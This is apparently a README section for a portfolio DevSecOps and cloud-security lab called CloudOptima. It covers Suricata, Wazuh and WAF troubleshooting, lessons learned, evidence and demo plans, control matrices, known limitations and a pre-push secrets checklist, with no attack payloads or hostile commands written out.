## Jenkins workspace / detached HEAD

Repository changes are not supposed to be committed from the Jenkins workspace.

Preferred:

```text
Developer / normal Git clone
       ↓
Git commit
       ↓
GitHub
       ↓
Jenkins checkout
       ↓
Pipeline
```

---

## Suricata container discovery

Suricata was Dockerized rather than installed directly on the host.

Therefore:

```bash
suricata --build-info
```

on the host was not the correct troubleshooting path.

Instead:

```bash
sudo docker exec cloudoptima-suricata \
  suricata --build-info
```

---

## Suricata noise

Generic HTTP rule generated too many alerts.

Observed:

```text
Alerts: 12499
```

The generic rule was removed.

Final security-focused detection:

```text
SID 1000003
```

---

## Traffic Mirror / Port Scan

A port-scan demonstration did not align with sensor placement.

Root cause:

```text
port scan → ALB
mirror source → Juice Shop ENI
```

The project removed the experimental port-scan rule instead of creating unnecessary network complexity.

---

## Wazuh IAM AssumeRole

Initial AWS-S3 module configuration attempted to assume the same role already attached to the Wazuh EC2.

Symptom:

```text
AccessDenied
when calling the AssumeRole operation
```

Resolution:

```text
remove unnecessary iam_role_arn
use the EC2 role directly
```

---

## IMDSv2

The Wazuh EC2 used IMDSv2.

Token-based metadata access was required before querying the role.

Conceptually:

```text
PUT token
  ↓
GET role
  ↓
GET credentials
```

---

## Wazuh JSON decoder limit

CloudTrail JSON caused:

```text
Too many fields for JSON decoder.
```

A local internal-options override increased:

```text
analysisd.decoder_order_size
```

from the smaller default to a larger project-appropriate value.

---

## WAF sampled requests

An empty result:

```text
PopulationSize: 0
```

did not necessarily mean that WAF missed the attack.

The query may simply have been executed outside the attack time window.

Lesson:

```text
attack → record timestamp → query immediately
```

---

## WAF rate-limit demonstration

A temporary lower threshold was used for experimentation, but the result was not deterministic enough for final evidence.

The project restored:

```text
1000 / 300s / IP
```

and used deterministic WAF-managed attacks for the final five-attack demonstration.

---

## Wazuh dashboard persistence

An unsaved dashboard disappeared after logout/login.

The solution was:

```text
Save dashboard
→ logout
→ login
→ verify persistence
```

Final dashboard:

```text
CloudOptima Security Operations
```

---

## Wazuh agent naming

Agent `004` was renamed from:

```text
ip-10-0-13-50
```

to:

```text
cloudoptima-devsecops
```

without creating a new agent identity.

Final:

```text
004 cloudoptima-devsecops Active
```

---

# 🧠 Engineering Lessons

## 1. Always inspect before changing

```text
observe
→ understand
→ change
```

---

## 2. Security controls depend on placement

A detection tool cannot observe traffic outside its sensor path.

---

## 3. Prevention can suppress detection

If WAF blocks a request before the backend:

```text
no new backend Suricata event
```

can be a correct outcome.

---

## 4. Alert count is not detection quality

The removal of the generic HTTP Suricata rule was a practical detection-engineering lesson.

---

## 5. IAM is architecture

Cloud integrations depend on:

```text
role
instance profile
permissions
credential source
service behavior
```

---

## 6. Preserve historical security evidence

Do not delete historical alerts simply because an endpoint was renamed.

---

## 7. Reproducibility requires evidence

Every major component should have:

```text
configuration
command
validation
evidence
```

---

# 📚 Documentation Structure

The complete repository should eventually use:

```text
CloudOptima/
│
├── README.md
├── LICENSE
├── SECURITY.md
├── CONTRIBUTING.md
├── CHANGELOG.md
├── .gitignore
│
├── docs/
│   ├── architecture/
│   ├── phases/
│   ├── attacks/
│   ├── runbooks/
│   ├── troubleshooting/
│   ├── security/
│   ├── screenshots/
│   │   ├── application/
│   │   ├── idp/
│   │   ├── devsecops/
│   │   ├── aws/
│   │   ├── waf/
│   │   ├── suricata/
│   │   ├── wazuh/
│   │   └── grafana/
│   └── demo/
│
├── backend/
├── ansible/
├── terraform/
├── policies/
├── scripts/
├── Dockerfile
├── docker-compose.yml
├── Jenkinsfile
├── requirements.txt
└── trivy.yaml
```

---

# 📸 Evidence / Screenshot Plan

Do **not** try to prove the entire project with one giant screenshot.

Use evidence by layer.

## Application

```text
juice-shop-live.png
burp-suite-target.png
```

## IDP

```text
flask-portal.png
postgresql.png
terraform-generator.png
ansible-generator.png
github-integration.png
```

## DevSecOps

```text
jenkins-pipeline.png
sonarqube.png
gitleaks.png
terraform-plan.png
checkov.png
infracost.png
opa.png
docker-build.png
trivy.png
ecr.png
ansible-run.png
```

## AWS

```text
vpc.png
subnets.png
security-groups.png
alb.png
waf.png
cloudtrail.png
traffic-mirroring.png
```

## Security

```text
waf-five-attacks.png
suricata-vxlan.png
suricata-sqli.png
wazuh-agents.png
wazuh-ssh-bruteforce.png
wazuh-cloudtrail.png
wazuh-dashboard.png
```

## Observability

```text
prometheus.png
grafana-dashboard.png
grafana-alerts.png
loki.png
```

---

# 🎥 Recommended Video Strategy

A single polished video is better than five separate long attack videos.

### Video 1 — Full Platform Walkthrough

```text
3–7 minutes
```

Show:

```text
IDP
→ GitHub
→ Jenkins
→ AWS
→ WAF
→ Juice Shop
→ Wazuh
→ Grafana
```

### Video 2 — Security Demonstration

```text
3–5 minutes
```

Show:

```text
Normal request
→ SQLi
→ 403
→ WAF evidence
→ Wazuh/Suricata
→ CloudTrail
```

Then mention the other four validated attacks and their evidence.

### Repository rule

```text
Screenshots
→ permanent proof

Video
→ fast human demonstration
```

---

# 🛡️ Security Control Matrix

| Layer | Control | Purpose |
|---|---|---|
| Edge | AWS WAF | Web attack prevention |
| Load Balancing | ALB | Application ingress |
| Network | Security Groups | Network access |
| Host | Wazuh Agent | Host monitoring |
| Network IDS | Suricata | Network detection |
| SIEM | Wazuh | Correlation/investigation |
| Cloud Audit | CloudTrail | AWS API audit |
| IaC Security | Checkov | Infrastructure scanning |
| Policy | OPA | Governance enforcement |
| Secret Security | GitLeaks | Secret detection |
| Container | Trivy | Vulnerability scanning |
| Code Quality | SonarQube | Static analysis |
| Observability | Prometheus/Grafana/Loki | Operational visibility |

---

# 📋 Final Validation Matrix

| Component | Validation | Status |
|---|---|---|
| Flask IDP | Web portal tested | ✅ |
| PostgreSQL | Application database available | ✅ |
| GitHub | Repository source flow | ✅ |
| Jenkins | Pipeline working | ✅ |
| SonarQube | Pipeline stage working | ✅ |
| GitLeaks | Pipeline stage working | ✅ |
| Terraform | Plan/apply workflow | ✅ |
| Checkov | IaC security | ✅ |
| Infracost | Cost stage | ✅ |
| OPA | Policy stage | ✅ |
| Docker | Image build | ✅ |
| Trivy | Image scan | ✅ |
| ECR | Image publishing | ✅ |
| Ansible | Deployment/config | ✅ |
| ALB | Active | ✅ |
| WAF | Attached and blocking | ✅ |
| Juice Shop | Reachable through ALB | ✅ |
| Suricata | Running | ✅ |
| Traffic Mirror | VXLAN observed | ✅ |
| Wazuh | Agents active | ✅ |
| CloudTrail | Logging/delivery | ✅ |
| Grafana | Dashboard | ✅ |
| Loki | Operational logs | ✅ |

---

# ⚠️ Known Limitations

CloudOptima is a project-scale engineering/security environment.

It is **not** presented as a production enterprise deployment.

Current limitations:

- Suricata is IDS rather than inline IPS.
- The custom Suricata SQLi rule is intentionally narrow.
- WAF managed rules do not guarantee every attack variant.
- The environment is centered on one AWS account.
- Automated incident response is limited.
- Production SSO/MFA requires additional hardening.
- HA/clustered security components are future enhancements.
- Exact subnet/security-group matrices should be taken from the final Terraform configuration before publication.

---

# 🚀 Production Roadmap

Potential future improvements:

```text
AWS GuardDuty
AWS Security Hub
AWS Config
centralized multi-account CloudTrail
VPC Flow Logs
WAF logging
Security Lake
Wazuh HA
SOAR
automated response
AWS Secrets Manager
OIDC-based CI authentication
artifact signing
private management network
formal change control
SLO/SLI monitoring
OpenTelemetry
```

---

# 🎯 Skills Demonstrated

### Platform Engineering

```text
Flask
PostgreSQL
GitHub integration
self-service generation
Terraform generation
Ansible generation
```

### DevOps

```text
Jenkins
GitHub
Terraform
Ansible
Docker
ECR
```

### DevSecOps

```text
SonarQube
GitLeaks
Checkov
OPA
Infracost
Trivy
IAM
security gates
```

### Cloud Security

```text
AWS WAF
ALB
IAM
CloudTrail
S3
Traffic Mirroring
EC2
```

### SOC / Security

```text
Wazuh
Suricata
SIEM
NIDS
attack validation
detection engineering
threat modeling
incident investigation
```

### Observability

```text
Prometheus
Node Exporter
Loki
Promtail
Grafana
```

---

# 🎤 Recruiter Demonstration

## 5-Minute Demo

```text
1. Overall architecture
2. IDP
3. Jenkins pipeline
4. Wazuh dashboard
5. WAF attack dashboard
6. Live SQLi
7. 403 response
8. Matching WAF rule
9. Wazuh/Suricata evidence
10. CloudTrail event
```

## 15-Minute Technical Demo

```text
1. IDP
2. GitHub
3. Jenkins
4. Security gates
5. Terraform/Ansible
6. AWS network
7. WAF
8. ALB
9. Juice Shop
10. Traffic Mirror
11. Suricata
12. Wazuh
13. CloudTrail
14. Grafana/Loki/Prometheus
15. Five attack cases
16. Troubleshooting example
17. Production roadmap
```

---

# 🔐 Public Repository Security Checklist

Before pushing to GitHub:

```text
[ ] No AWS access keys
[ ] No AWS secret keys
[ ] No passwords
[ ] No private keys
[ ] No session tokens
[ ] No Wazuh client.keys
[ ] No database credentials
[ ] No .env secrets
[ ] No Terraform state with secrets
[ ] No Jenkins credentials
[ ] Screenshots sanitized
[ ] GitLeaks clean
[ ] git diff reviewed
[ ] .gitignore reviewed
```

Recommended pre-push commands:

```bash
git status
git diff
gitleaks detect
```

---

# 📌 Repository Practice

Repository source remains the source of truth.

Do not make normal repository commits from the Jenkins workspace.

Preferred:

```text
Developer / normal Git clone
          ↓
       git commit
          ↓
      git push
          ↓
       GitHub
          ↓
   Jenkins checkout
          ↓
       Pipeline
```

This avoids detached-HEAD and CI-workspace state problems.

---

# 📚 Phase Documentation

The detailed implementation history should remain available under `docs/phases/`.

Recommended:

```text
Phase 1  → Executive Overview
Phase 2  → Internal Developer Platform
Phase 3  → DevSecOps Pipeline
Phase 4  → AWS Infrastructure & Networking
Phase 5  → Security Operations
Phase 6  → Observability
Phase 7  → Attack Laboratory
Phase 8  → Troubleshooting
Phase 9  → Security Review
Phase 10 → GitHub Packaging
```

---

# ⭐ Final Project Statement

CloudOptima demonstrates a complete engineering lifecycle:

```text
SELF-SERVICE
     ↓
SOURCE CONTROL
     ↓
SECURE CI/CD
     ↓
INFRASTRUCTURE
     ↓
CLOUD PROTECTION
     ↓
RUNTIME DETECTION
     ↓
SIEM
     ↓
AUDIT
     ↓
OBSERVABILITY
     ↓
INVESTIGATION
```

The objective was not to install the maximum number of tools.

The objective was to understand:

```text
where each control belongs
what it protects
how components communicate
which ports/protocols are used
how telemetry moves
how failures are diagnosed
how detections are validated
how alerts are tuned
how evidence is collected
how the platform could evolve toward production
```

---

## 👤 About the Project

CloudOptima was built as an end-to-end engineering and security project to demonstrate practical capabilities across:

**Platform Engineering · DevOps · DevSecOps · Cloud Security · SOC · SIEM · Infrastructure as Code · Security Monitoring · Observability**

---

## 🛡️ Security Disclaimer

> CloudOptima is an educational and engineering portfolio project. The attack demonstrations are intended only for systems owned by the project author or explicitly authorized for testing. Do not run the security-testing examples against third-party systems.

---

⭐ If this repository helps you understand the architecture, feel free to star it.
